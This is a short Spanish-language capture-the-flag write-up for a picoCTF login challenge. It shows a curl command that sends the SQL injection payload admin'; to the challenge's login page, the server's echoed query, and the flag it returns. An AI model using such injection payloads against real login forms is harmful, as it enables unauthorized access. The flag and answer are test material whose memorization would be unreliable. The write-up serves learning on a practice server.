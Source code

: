 ## Objetivo
There is a website running at `https://jupiter.challenges.picoctf.org/problem/52849/` ([link](https://jupiter.challenges.picoctf.org/problem/52849/)). Someone has bypassed the login before, and now it's being strengthened. Try to see if you can still login! or http://jupiter.challenges.picoctf.org:52849
## Solución
En consola 
```bash
amer_br_-picoctf@webshell:~$ curl https://jupiter.challenges.picoctf.org/problem/39720/login.php -d "username=admin'; &password=hola&debug=1"
<pre>username: admin'; 
password: hola
SQL query: SELECT * FROM users WHERE name='admin'; ' AND password='hola'
</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{m0R3_SQL_plz_fa983901}</p>
```

En la interfaz:
Primero intentamos hacer lo mismo que en el reto anterior (Irish-Name-Repo 1) pero la página detecta la inyección.
![[Pasted image 20240925200113.png]]
Probamos con la inyección **admin';** que hara que la consulta del SQL query ignore la sentecia después del ; y así logramos tener acceso.
![[Pasted image 20240925200332.png]]

![[Pasted image 20240923105415.png]]
![[Pasted image 20240923105443.png]]
